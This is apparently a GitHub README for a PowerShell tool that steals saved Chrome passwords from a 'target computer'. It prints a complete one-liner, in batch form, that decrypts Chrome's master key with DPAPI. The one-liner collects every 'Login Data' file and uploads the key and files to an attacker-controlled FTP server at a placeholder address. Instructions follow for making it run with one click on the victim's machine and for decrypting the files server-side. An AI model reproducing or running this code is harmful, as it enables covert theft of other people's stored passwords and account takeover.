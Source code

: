 # ChromePasswordDecryptionWithPS
Sending the Login Data files along with the unique byte sequence needed to decode the passwords to a FTP server. Then, decrypt those files on the server side.

HOW TO USE:
  1. Download the "chrSender.ps1" file and edit the ftp server address and ftp server credentials (these appear twice in the code make sure to edit both)
  2. Run this on the target computer (make sure your ftp server is running so it can receive the information)  
      - You can also change this ps1 file into a batch file so it can run on the target's computer with one click, this can be done like this:  
      ```
      @echo off  
      set test5=$fileLoc = $env:LOCALAPPDATA + '\Google\Chrome\User Data\Local State';$TempFile3 = New-TemporaryFile;Copy-Item $fileLoc -Destination $TempFile3;$fileCont = Get-Content $TempFile3;$x = $fileCont ^^^| ConvertFrom-Json;$key = $x.os_crypt.encrypted_key;Add-Type -AssemblyName System.Security;$befbase = [System.Convert]::FromBase64String($key);$befbase = $befbase[5..($befbase.Length-1)];$clearPWD_ByteArray = [System.Security.Cryptography.ProtectedData]::Unprotect( $befbase, $null, [System.Security.Cryptography.DataProtectionScope]::CurrentUser );$TempFile = New-TemporaryFile;Set-Content $TempFile -Value $clearPWD_ByteArray -Encoding Byte;$foldPar = $env:LOCALAPPDATA + '\Google\Chrome\User Data';$chF = Get-ChildItem -Path $foldPar -Filter 'Login Data' -Recurse -ErrorAction SilentlyContinue -Force -Name;$overallNum = (Get-Random -Minimum 10000000 -Maximum 99999999);$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'k_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = 0;foreach ($cF in $chF) {$cFLoc = $foldPar + '\' + $cF;$TempFile2 = New-TemporaryFile;Copy-Item $cFLoc -Destination $TempFile2;$ftp = [System.Net.FtpWebRequest]::Create(('ftp://YOURIP/' + 'c' + $curIt + '_' + $overallNum + '.dat'));$ftp = [System.Net.FtpWebRequest]$ftp;$ftp.Method = [System.Net.WebRequestMethods+Ftp]::UploadFile;$ftp.Credentials = new-object System.Net.NetworkCredential('YOURFTPLOGIN','YOURFTPPASSWORD');$ftp.UseBinary = $true;$ftp.UsePassive = $true;$content = [System.IO.File]::ReadAllBytes($TempFile2);$ftp.ContentLength = $content.Length;$rs = $ftp.GetRequestStream();$rs.Write($content, 0, $content.Length);$rs.Close();$rs.Dispose();$curIt = $curIt + 1;}  
      powershell -command %test5%
      ```  
      - ^^^If you copy this code, make sure to change the YOURIP, YOURFTPLOGIN, and YOURFTPPASSWORD sections (which all appear twice in the code)
  3. Once you receive the files on the server side you can decrypt them with the program I included
  
